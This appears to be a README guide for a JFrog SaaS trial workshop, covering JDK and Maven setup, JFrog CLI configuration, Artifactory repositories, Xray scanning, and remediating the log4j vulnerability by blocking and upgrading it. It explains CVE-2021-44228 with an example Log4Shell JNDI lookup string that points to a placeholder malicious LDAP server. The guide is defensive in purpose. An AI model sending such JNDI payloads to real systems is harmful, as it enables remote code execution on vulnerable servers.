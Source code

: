 # 🏗️ JFrog SaaS Trial Workshop Guide

Welcome to the **JFrog SaaS Trial Workshop!** 🎓  
This guide will help you get started with JFrog SaaS and practice building a Maven project.

## 📝 Prerequisites
### JDK 1.8 Installation
<details>
<summary> Click to expand Maven installation steps </summary>

1. **Install JDK**
   - Download and install JDK from [OpenJDK](https://adoptium.net/)

2. **Configure Environment Variables**
   <details>
   <summary>Click to expand configuration steps</summary>

   - **Set JAVA_HOME**
     1. Open System Properties (Win + S → "Environment Variables")
     2. Click "Environment Variables" → "New" under System variables
     3. Set:
        ```
        Variable name: JAVA_HOME
        Variable value: C:\Program Files\Java\jdk-17
        ```
   
   - **Add Java to PATH**
     1. In System variables, select "Path" → "Edit"
     2. Click "New" and add:
        ```
        %JAVA_HOME%\bin
        ```
     3. Click "OK" to save
   </details>

3. **Verify Installation**
   ```bash
   # Check Java version
   java -version
   
   # Check Java compiler
   javac -version
   ```
   
   Expected output:
   ```
   openjdk version "1.8.0_442-internal"
   OpenJDK Runtime Environment (build 1.8.0_442-internal-b06)
   OpenJDK 64-Bit Server VM (build 25.442-b06, mixed mode)
   ```
</details>

### Maven 3.6+
<details>
<summary>Click to expand Maven installation steps</summary>

1️⃣ **Download Maven**
   - Go to [Apache Maven download page](https://maven.apache.org/download.cgi)
   - Download the Binary zip archive (e.g., `apache-maven-3.9.6-bin.zip`)

📂 2️⃣ **Extract Maven**
   - Extract the downloaded ZIP file to a directory, e.g.:
     ```
     C:\Program Files\Apache\Maven
     ```
   - Your Maven folder structure should look like:
     ```
     C:\Program Files\Apache\Maven\apache-maven-3.9.6
     ```

⚙️ 3️⃣ **Set Environment Variables**
   <details>
   <summary>Click to expand environment variables configuration</summary>

   ### Windows Environment Setup
   
   #### Method 1: Using System Properties
   ```bash
   # 1. Open System Properties
   # Press Win + S and type "Environment Variables"
   # Or right-click on This PC → Properties → Advanced system settings
   
   # 2. Click "Environment Variables" button
   # 3. Under "System variables" section, click "New"
   # 4. Set MAVEN_HOME:
   Variable name:  MAVEN_HOME
   Variable value: C:\Program Files\Apache\Maven\apache-maven-3.9.6
   
   # 5. Find "Path" variable, click "Edit"
   # 6. Click "New" and add:
   %MAVEN_HOME%\bin
   # 7. Click "OK" on all windows to save
   ```

   #### Method 2: Using Command Line
   ```bash
   # Run Command Prompt as Administrator
   
   # Set MAVEN_HOME
   setx MAVEN_HOME "C:\Program Files\Apache\Maven\apache-maven-3.9.6" /M
   
   # Add to PATH
   setx PATH "%PATH%;%MAVEN_HOME%\bin" /M
   ```

   ### Verify Installation
   ```bash
   # Open a new Command Prompt and run:
   mvn -version
   ```
   
   Expected output:
   ```
   Apache Maven 3.9.6 (...)
   Maven home: C:\Program Files\Apache\Maven\apache-maven-3.9.6
   Java version: 1.8.0_442, vendor: Oracle Corporation
   Java home: C:\Program Files\Java\jdk1.8.0_442
   Default locale: en_US, platform encoding: UTF-8
   OS name: "windows 10", version: "10.0", arch: "amd64", family: "windows"
   ```

   > **Note:** After setting environment variables, you need to open a new Command Prompt for the changes to take effect.
   </details>
</details>

## 🚀 Getting Started

### 1. Apply for JFrog SaaS Trial
1. [Apply for JFrog SaaS Trial](https://jfrog.com/start-free/)
2. Ensure you have access to:
   - ✅ **JFrog Artifactory (SaaS)**
   - ✅ **JFrog Xray** 

### 2. Clone the Project
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. Create Maven Repositories
![img_6.png](images/img_6.png)
1. Log in to JFrog SaaS Platform
2. Click **Quick Repository Creation** (top-right)
3. Select **Maven** and create:
   - Local Repo: `sample-maven-local`
   - Remote Repo: `sample-maven-remote`
   - Virtual Repo: `sample-maven`

### 4. Configure JFrog CLI
1. [Download JFrog CLI](https://jfrog.com/getcli/)
2. Configure your environment:
   ```shell
   jf c add saas
   ```
   Follow prompts to enter:
   - JFrog Platform URL: `https://<YOUR_DOMAIN>.jfrog.io`
   - Username
   - Encrypted Password (from Profile → Edit Profile → Generate Encrypted Password)

### 5. Configure Maven
```shell
cd maven-sample
jf mvnc
```
This generates a `settings.xml` pointing to your SaaS repositories.

### 6. Build and Deploy
```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 7. Verify Deployment
- Check **Artifactory → Artifacts** for deployed files
- View build info in **Builds** section

### 8. Enable Xray Scanning
1. Go to **JFrog Xray → Index Resource**
2. Add to watch:
   - Repositories: `sample-maven-local`
   - Builds: `sample-maven-build`

### Understanding log4j Vulnerability
The log4j vulnerability (CVE-2021-44228) is detected because your project uses log4j-core 2.14.0. However, it's only exploitable when:

1. Using vulnerable logging patterns:
   ```java
   // Vulnerable
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // Safe
   logger.info("User logged in: {}", username);
   ```

2. **AND** when:
   - Logging user-controlled input
   - Input contains `${jndi:ldap://...}` pattern
   - Application has network access to malicious server

This explains why Xray shows many false positives - vulnerabilities exist in code but aren't exploitable in your use case.

### 9. Remediate log4j Vulnerability

#### 9.1 Review Vulnerability
JFrog Advanced Security has identified this log4j package as a true positive. You can view the detailed evidence in the security report.
![img_1.png](images/img_1.png)

#### Review the False Positive Results
![img_5.png](images/img_5.png)
> **86% of critical/high vulnerabilities are false positives**

![img_4.png](images/img_4.png)

#### 9.2 Block Vulnerable Version
![img_7.png](images/img_7.png)
1. **Create Block Condition:**  
   Administrator → Curation Settings → Create Condition  
   ![img.png](images/img.png)

2. **Create Policy:**  
   ![img_2.png](images/img_2.png)

3. **Clean Cache:**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **Verify Block:**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   ![img_3.png](images/img_3.png)

5. **Fix: Update log4j Version**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **Rebuild:**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

The build should complete successfully, confirming that the security issue has been fixed.

> **Happy building and stay secure! 🚀**